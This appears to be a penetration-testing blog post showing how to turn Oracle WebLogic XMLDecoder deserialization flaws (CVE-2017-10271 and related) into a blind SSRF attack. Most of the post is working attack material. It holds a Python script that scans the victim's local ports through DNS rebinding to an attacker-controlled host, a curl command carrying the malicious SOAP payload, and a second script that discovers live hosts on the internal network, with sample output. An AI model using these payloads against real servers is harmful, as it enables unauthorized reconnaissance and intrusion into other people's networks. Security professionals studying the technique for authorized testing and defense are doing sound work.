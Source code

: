 ```yaml
---
layout: post
title: "Blind SSRF with Oracle WebLogic Deserialization"
date: 2020-09-26 22:00:00 +0300
author: snovvcrash
tags: [external-pentest, oracle, weblogic, java-deserialization, bind-ssrf, dns-rebinding, python]
published: true
---
```


A way to get an impact from exploiting Oracle WebLogic Server Java deserialization vulnerabilities (CVE-2017-3506, CVE-2017-10271, CVE-2019-2725, CVE-2019-2729, etc.) without triggering RCE through an SSRF attack.

<!--cut-->

![banner.png](/assets/images/blind-ssrf-with-oracle-weblogic-deserialization/banner.png)
{:.center-image}

* TOC
{:toc}

## Prologue

If you have discovered a running instance of Oracle WebLogic Server (>= 12.2.1.3) that is vulnerable to a Java deserialization attack during a pentest engagement but firing up RCE directly is not acceptable for you for some reason, then there is an alternative way to show impact to the Customer with an SSRF attack.

This type of vulnerabilities is usually exploited via deserialization of the `java.lang.ProcessBuilder` class to achieve command execution at the victim's host. Another class that can be successfully deserialized with a malicious SOAP request is `java.net.URL` which tries to interact with the provided URL. This attack scenario is implemented in [this](https://github.com/kkirsche/CVE-2017-10271) CVE-2017-10271 checker, for example. We can combine this trick with a blind SSRF attack to scan local ports listening on the target machine as well as discover new hosts within target's local network.

## Local Port Scan

### Python Simple HTTP Server

I built the following Python script and looped it through every TCP port at victim's localhost.

The script is mainly based on the [1u.ms](http://1u.ms/) service for DNS rebinding: it brings up a simple HTTP server on the attacker's box and then sends a malicious SOAP request to the target with `http://make-127.0.0.1-and-<ATTACKER_IP>rr.1u.ms:<PORT>` as a payload. If the target host **does not** have provided `<PORT>` opened, then DNS rebinding will be triggered and I will see that the response from victim came back right to my host (because the DNS query could not be resolved to victim's `127.0.0.1:<PORT>`). If the target host **does** have this `<PORT>` opened, then DNS rebinding will not be triggered and I will not see a response on my box which means victim's machine successfully resolved this DNS query to its localhost at the first place.

```
$ for port in `seq 1 65535`; do sudo python3 -u ssrf-port-scan.py $port 2>&1 | tee -a ports.log; done
```

```python
#!/usr/bin/env python3

import sys
import urllib3
from threading import Thread
from http.server import SimpleHTTPRequestHandler
from socketserver import TCPServer

import requests

urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)


class HTTPServerInThread(Thread):

	def __init__(self, address, port):
		super().__init__()
		self.address = address
		self.port = port
		self.httpd = TCPServer((address, port), SimpleHTTPRequestHandler)

	def run(self):
		#print(f'[*] Serving HTTP on {self.address} port {self.port} (http://{self.address}:{self.port}/) ...')
		self.httpd.serve_forever()


class Default(dict):

	def __missing__(self, key):
		return '{' + key + '}'


if __name__ == '__main__':
	port = int(sys.argv[1])

	headers = {'Content-Type': 'text/xml;charset=UTF-8'}
	data = f"""<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
  <soapenv:Header>
    <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
      <java version="1.8" class="java.beans.XMLDecoder">
        <void id="url" class="java.net.URL">
          <string>http://make-127.0.0.1-and-<ATTACKER_IP>rr.1u.ms:{port}</string>
        </void>
        <void idref="url">
          <void id="stream" method = "openStream" />
        </void>
      </java>
    </work:WorkContext>
    </soapenv:Header>
  <soapenv:Body/>
</soapenv:Envelope>
"""

	server = HTTPServerInThread(address='0.0.0.0', port=port)
	server.daemon = True
	server.start()

	print(port)
	resp = requests.post('http://<TARGET_IP>/wls-wsat/CoordinatorPortType', headers=headers, data=data, verify=False)
	if resp.status_code != 500:
		print(f'[?] Status code for port {port} is {resp.status_code}')
```

Here is a PoC request that validates that the default WebLogic Server 7001/TCP port is listened on victim's 127.0.0.1:

[![burp-poc-7001.png](/assets/images/blind-ssrf-with-oracle-weblogic-deserialization/burp-poc-7001.png)](/assets/images/blind-ssrf-with-oracle-weblogic-deserialization/burp-poc-7001.png)
{:.center-image}

### tcpdump

An easier way to validate status of the remote port is to use tcpdump to monitor victim's responses:

```
$ sudo tcpdump -n -i eth0 -A -s0 'src <TARGET_IP> and tcp'
$ curl -i -s -k -X $'POST' \
    -H $'Host: <TARGET_IP>' \
    -H $'User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_12_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/63.0.3239.84 Safari/537.36' \
    -H $'Accept-Encoding: gzip, deflate' -H $'Accept: */*' -H $'Connection: close' -H $'Content-Type: text/xml;charset=UTF-8' -H $'Content-Length: 574' \
    --data-binary $'<soapenv:Envelope xmlns:soapenv=\"http://schemas.xmlsoap.org/soap/envelope/\">\x0d\x0a  <soapenv:Header>\x0d\x0a    <work:WorkContext xmlns:work=\"http://bea.com/2004/06/soap/workarea/\">\x0d\x0a      <java version=\"1.8\" class=\"java.beans.XMLDecoder\">\x0d\x0a        <void id=\"url\" class=\"java.net.URL\">\x0d\x0a          <string>http://make-127.0.0.1-and-<ATTACKER_IP>rr.1u.ms:7001</string>\x0d\x0a        </void>\x0d\x0a        <void idref=\"url\">\x0d\x0a          <void id=\"stream\" method = \"openStream\" />\x0d\x0a        </void>\x0d\x0a      </java>\x0d\x0a    </work:WorkContext>\x0d\x0a    </soapenv:Header>\x0d\x0a  <soapenv:Body/>\x0d\x0a</soapenv:Envelope>' \
    $'http://<TARGET_IP>/wls-wsat/CoordinatorPortType'
```

## Host Discovery

A similar approach can be used to discover live hosts within victim's local network. This attack is even more blind because you should guess a network range first as well as make a guess which port is definitely opened on a testing machine. I chose the 88 port to discover Kerberos KDC service on domain controllers within `192.168.10.0/24` network as an example. I do not use DNS rebinding here but instead look for request timeout events to differentiate live hosts:

```python
#!/usr/bin/env python3

import urllib3
from ipaddress import IPv4Network

import requests

if __name__ == '__main__':
        urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
        headers = {'Content-Type': 'text/xml;charset=UTF-8'}

        port = 88
        for ip in (str(i) for i in IPv4Network('192.168.10.0/24')):
                data = f"""<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
  <soapenv:Header>
    <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
      <java version="1.8" class="java.beans.XMLDecoder">
        <void id="url" class="java.net.URL">
          <string>http://{ip}:{port}</string>
        </void>
        <void idref="url">
          <void id="stream" method="openStream" />
        </void>
      </java>
    </work:WorkContext>
    </soapenv:Header>
  <soapenv:Body/>
</soapenv:Envelope>
"""

                try:
                        resp = requests.post('http://<TARGET_IP>/wls-wsat/CoordinatorPortType', headers=headers, data=data, verify=False, timeout=4)
                except requests.Timeout:
                    print(f'[-] {ip}:{port}')
                else:
                    print(f'[+] {ip}:{port}')
```

```
$ python3 -u ssrf-host-discovery.py | tee -a hosts.log
[-] 192.168.10.0:88
[-] 192.168.10.1:88
[-] 192.168.10.2:88
[-] 192.168.10.3:88
[-] 192.168.10.4:88
[-] 192.168.10.5:88
[-] 192.168.10.6:88
[-] 192.168.10.7:88
[-] 192.168.10.8:88
[-] 192.168.10.9:88
[+] 192.168.10.10:88
[-] 192.168.10.11:88
[-] 192.168.10.12:88
[-] 192.168.10.13:88
```

## Refs

* [Плохая логика. Выполняем произвольный код в популярном сервере приложений Oracle WebLogic — «Хакер»](https://xakep.ru/2018/01/18/oracle-weblogic-exploit/)
* [Подделка серверных запросов, эксплуатация Blind SSRF / Взрывной блог](https://bo0om.ru/blind-ssrf)
